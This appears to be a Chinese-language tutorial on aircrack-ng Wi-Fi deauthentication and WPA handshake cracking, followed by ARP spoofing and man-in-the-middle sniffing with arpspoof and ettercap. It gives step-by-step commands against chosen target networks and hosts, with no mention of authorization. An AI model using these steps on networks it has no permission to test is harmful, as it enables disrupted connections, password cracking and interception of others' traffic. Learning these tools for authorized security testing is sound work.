 # Deauth

`aircrack-ng` 是一个用于无线网络安全审计的工具包，主要用于捕获数据包并进行 WEP 和 WPA/WPA2 密码破解。以下是使用 `aircrack-ng` 的基本步骤：

### 1. 安装 aircrack-ng

在 Kali Linux 或其他 Debian/Ubuntu 系统上，可以使用以下命令安装：

```bash
sudo apt update
sudo apt install aircrack-ng
```

### 2. 切换到监控模式

首先，你需要将无线网卡切换到监控模式。使用以下命令：

```bash
sudo airmon-ng start <your_wireless_interface>
```

其中，`<your_wireless_interface>` 是你的无线网卡名称，例如 `wlan0`。

### 3. 监控网络流量

使用 `airodump-ng` 监控附近的无线网络：

```bash
sudo airodump-ng <monitor_interface>
```

其中，`<monitor_interface>` 是你在监控模式下的无线网卡名称（例如 `wlan0mon`）。

### 4. 捕获数据包

当你在 `airodump-ng` 界面中看到目标网络后，记录下其 BSSID 和频道（CH）。

使用以下命令仅捕获特定网络的数据包：

```bash
sudo airodump-ng --bssid <target_bssid> -c <target_channel> -w <output_file> <monitor_interface>
```

- `<target_bssid>`：目标网络的 BSSID。
- `<target_channel>`：目标网络的频道。
- `<output_file>`：捕获数据包的文件名。
- `<monitor_interface>`：你的监控接口名称。

### 5. 进行攻击（可选）

如果你想要捕获 WPA/WPA2 握手包，你可以执行以下步骤：

使用 `aireplay-ng` 注入数据包，促使客户端重新连接并获取握手包：

```bash
sudo aireplay-ng --deauth 10 -a <target_bssid> -c <client_mac> <monitor_interface>
```

- `10`：表示发送 10 个 deauthentication 数据包。
- `<client_mac>`：要断开连接的客户端的 MAC 地址（可选，如果不想指定，可以省略）。
- `<target_bssid>`：目标网络的 BSSID。

### 6. 破解密码

使用 `aircrack-ng` 破解捕获的握手数据包：

```
sudo aircrack-ng <output_file>.cap
```

这里，`<output_file>.cap` 是捕获的数据包文件名。

如果你有字典文件，可以指定它进行破解：

```bash
sudo aircrack-ng -w <wordlist_file> <output_file>.cap
```

- `<wordlist_file>`：包含潜在密码的字典文件路径。

# Arp欺骗

##  arpspoof

`arpspoof` 是 `dsniff` 工具包中的一个实用工具。它可以轻松地进行 ARP 欺骗。

### 安装 dsniff

如果 `dsniff` 未安装，可以通过以下命令进行安装：

```
sudo apt update
sudo apt install dsniff
```

### 使用 `arpspoof`

1. **启用 IP 转发**

   在进行 ARP 欺骗之前，需要启用 IP 转发，以便将流量转发到受害者：

   ```
   echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
   # 1 为启用转发，0为禁止转发，会导致断网
   ```

2. **选择目标和网关**

   确定你要欺骗的目标 IP 和网关 IP。例如，目标 IP 为 `192.168.1.10`，网关 IP 为 `192.168.1.1`。

3. **开始 ARP 欺骗**

   打开两个终端，分别执行以下命令：

   - 在第一个终端中，将网关欺骗目标：

     ```bash
     sudo arpspoof -i <你的网络接口> -t 192.168.1.10 192.168.1.1
     ```

   - 在第二个终端中，将目标欺骗网关：

     ```
     sudo arpspoof -i <你的网络接口> -t 192.168.1.1 192.168.1.10
     ```

4. **停止 ARP 欺骗**

   使用 `Ctrl+C` 停止命令。

##  ettercap

`ettercap` 是一个功能强大的网络嗅探和中间人攻击工具。

### 安装 `ettercap`

如果 `ettercap` 未安装，可以通过以下命令进行安装：

```
sudo apt update
sudo apt install ettercap-gtk
```

### 使用 `ettercap`

1. **启动 `ettercap`**

   打开 `ettercap` GUI：

   ```
   sudo ettercap -G
   ```

2. **选择网络接口**

   在 `ettercap` 界面中，选择你要使用的网络接口。

3. **扫描网络**

   选择 **Hosts** > **Scan for hosts**，扫描网络中的设备。

4. **添加目标**

   选择 **Hosts** > **Host List**，找到目标和网关 IP，选中后点击 **Add to Target 1** 和 **Add to Target 2**。

5. **开始 ARP 欺骗**

   在菜单中选择 **Mitm** > **ARP poisoning**，勾选 **Sniff remote connections**，然后点击 **OK**。

6. **开始嗅探**

   点击工具栏中的 **Start Sniffing** 按钮，开始嗅探流量。

7. **停止 ARP 欺骗**

   关闭 `ettercap` 或使用菜单中的选项停止嗅探